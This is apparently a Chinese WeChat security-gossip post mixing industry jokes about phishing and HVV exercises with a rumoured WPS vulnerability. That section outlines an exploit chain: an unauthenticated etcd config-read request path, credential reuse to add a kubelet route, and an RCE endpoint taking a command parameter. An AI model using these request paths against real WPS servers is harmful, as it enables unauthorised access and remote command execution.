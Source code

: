 #  【吃瓜】内推"红队"当内鬼 | 网传wps漏洞为Nday | HV奖励吃大粪  
原创 LeePlus  表哥带我   2025-07-17 08:24  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/pxKqYxJWy7MHqrAcwIGH5K7UvO9SFI4EkaH4ooCVsu7cll9674CjgclKxGIKcM5MNF5s7vnK2NjZ6tliaQ0FWNg/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
## 家里养了鬼知不知道  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9lKy2uTZOicNDUPeNSDcTE6OFxvPxvEMFkcWSBHbVSY0NPzx6nHNAWVw/640?wx_fmt=png&from=appmsg "")  
  
甲方："家里养了鬼知不知道？昨天早上你内推的人发了一份钓鱼简历，HR把这份钓鱼简历点开了，应急会议开到半夜，然后今天刚被你招进来的防守人员又点了钓鱼邮件，这内鬼是谁啊，不是你难道是我？？还是他啊？！！"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9f2OTSz3kLnfErBaHn8jMYCQ242wHhuBBribcgXkpDLzpjibnD9tMonzg/640?wx_fmt=png&from=appmsg "")  
  
  
## 网传WPS漏洞为Nday  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9QcWozEFPrhmNq2Syb4bJ56GpMfzfcYVRQjiccS4fUkB39icKuM7g9Bibg/640?wx_fmt=jpeg "")  
  
1、未授权访问  
```
/open/v6/api/etcd/operate?key=/config/storage&method=get

```  
  
2、获取AKSK后使用脚本添加kubelet 路由映射，但需要获取TOKEN  
  
3、向对应POD发起通信后实现RCE  
```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg94UhUDqpKzye9WP0fNHEdHQ9iaiaMrRFkUWj9X0oVxv8CByDkZbh78a3w/640?wx_fmt=png&from=appmsg "")  
  
  
## HV奖励吃大粪  
  
  
某地区排污阀接到自来水管网  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9PrGEex9OzoCzeTTgXJzX19qvOqtQdQuicbZYex9CKict7yFYVjZq8wag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9yYELf9PchibEmPJ5SV0MbiavkDR7Da500g0ZMAMO0StrglcD7l0MgQicA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg93GNQugGB8lGfHD2RFvFH45GJ4AKmwoN9XqfhT36NhSzmZHpUDicNnbQ/640?wx_fmt=png&from=appmsg "")  
  
提醒:本文仅供  
娱乐、安全研究  
如有雷同纯属巧合  
  
  
往期推荐  
  
  
  
[【吃瓜】微信惊现逆天Xss](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484955&idx=1&sn=6ab81a2fb259c19f864e694b22133c18&scene=21#wechat_redirect)  
  
  
[【吃瓜】如何看待hvv睡觉被退场](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484844&idx=1&sn=b21845d0ac0fe737a5194542fab0dd09&scene=21#wechat_redirect)  
  
  
[【吃瓜】微信逆天的Bug2.0 神代码合集](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484994&idx=1&sn=a95aa7f0cd2cb5214bb842f7fdd4e2a3&scene=21#wechat_redirect)  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/pxKqYxJWy7NibiavMhpjsxcYQ80mFzicSv5Nia84ibfF6Nm33h6yqRvZpwibN3o1ZWnwh9XE4IWt1fiblrGibd6ap7qgWA/640?wx_fmt=jpeg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**扫码关注我们**  
  
    微信公众号：表哥带我  
  
    本文供稿：  
LeePlus  
  
